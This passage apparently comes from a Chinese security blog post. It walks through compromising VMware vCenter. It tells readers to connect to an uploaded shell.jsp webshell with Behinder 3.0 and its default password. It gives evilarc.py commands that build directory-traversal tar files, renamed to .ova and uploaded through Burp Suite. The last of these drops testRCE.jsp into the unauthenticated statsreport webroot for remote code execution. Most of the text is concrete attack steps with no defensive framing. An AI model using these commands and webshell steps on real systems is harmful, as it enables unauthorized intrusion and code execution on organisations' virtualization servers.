 ![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWaHIa5q0JgJHh06HuNjBsYSg8NIicibSwGpt5l7zZIKyFv1mSBJcPYQwZSVMJdw3bm7BxOObfV6HCQ/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWaHIa5q0JgJHh06HuNjBsYtXCia0sNJicRYbthiaqK2O6zZLt509MJTqUveKg0MQicbNczicGQDypfX4A/640?wx_fmt=png)

**使用冰蝎 3.0 连接 shell 即可**

```
坑：每个版本路径都不一样，这里需要自己去拼接
shell 地址：靶标/ui/resources/shell.jsp
密码为冰蝎3.0默认密码
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWaHIa5q0JgJHh06HuNjBsYNic8qE4aAFlYjblXEM5Ao3qJyg8DCmfkbJdveJB97h9nUicxzcMOlJ9g/640?wx_fmt=png)

_**No.4  
**_

_**高阶漏洞利用**_

**1. 基本漏洞利用**

https://github.com/ptoomey3/evilarc/blob/master/evilarc.py  
evilarc.py 可创建一个 zip 文件，其中包含在其嵌入式路径中带有目录遍历字符的文件。  
如果应用程序或库没有阻止目录遍历字符，则可以使用 evilarc 生成 zip 文件，将其解压缩后将文件放置在目标系统上的任意位置。  
python evilarc.py -d 2 -p 'testFolder\' -o win -f winexpl.tar testUpload.txt  
该 winexpl.tar 包括一个名为的文件....\testFolder\testUpload.txt。

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWaHIa5q0JgJHh06HuNjBsYl4ouJIicZibmd3iaUH1kJvlj4Yl525213CrSjsjnlgQL21BT6zE9A8AkA/640?wx_fmt=png)

通过如下 POC 上传文件（这里通过 burpsuti 抓包将上传的文件 winexpl.tar 重命名为. ova）

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWaHIa5q0JgJHh06HuNjBsYeRhmMsw4jYOuKDFpic4fykDEwnrwFltia0afExNdRLczRTvgs4ibXXyRA/640?wx_fmt=png)

可直接上传到 C:\testFolder\testUpload.txt 下

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWaHIa5q0JgJHh06HuNjBsYtc7slickZibsqrm9tZ90jSLfdxOIWPAsOKW8beGj99ZTiadXlYuB55HRg/640?wx_fmt=png)

**2、Windows 上获取 RCE**

    1. 需要找打创建文件的可写路径

    2. 找到的文件路径映射到可访问的 Web 根目录的文件夹结构中，该目录能够运行. jsp 脚本，并且不需要授权  
通过上面上传的 testUpload.txt 文件属性，可知道用于该文件执行的用户是 vsphere-ui

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWaHIa5q0JgJHh06HuNjBsY8KY3CyrhTQuqG6rMIIgQ9DsZw6VNr7uCnsGhmTibcgMdLFnGmMfSpXA/640?wx_fmt=png)

并且在 windows 目录下载，默认安装 C:\ProgramData\VMware\vCenterServer\data\perfcharts\tc-instance\webapps\statsreport \ 该目录含有 JSP 执行文件权限 (无需登录执行访问）  
根据以上信息，可以指定一个 tar 文件  
python evilarc.py -d 5 -p 'ProgramData\VMware\vCenterServer\data\perfcharts\tc-instance\webapps\statsreport' -o win -f winexpl.tar testRCE.jsp

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWaHIa5q0JgJHh06HuNjBsYziayMgFCSSN918ZfXzicOG9b7E5eEuV5Rhwib5a7jEr9SRiaiahibC2ME6SA/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWaHIa5q0JgJHh06HuNjBsY4aWkFibSiaEtUOEFOW9HZrWCFx6hMibnVMHjV9Y0gpG474qpQibI8ZNQNg/640?wx_fmt=png)
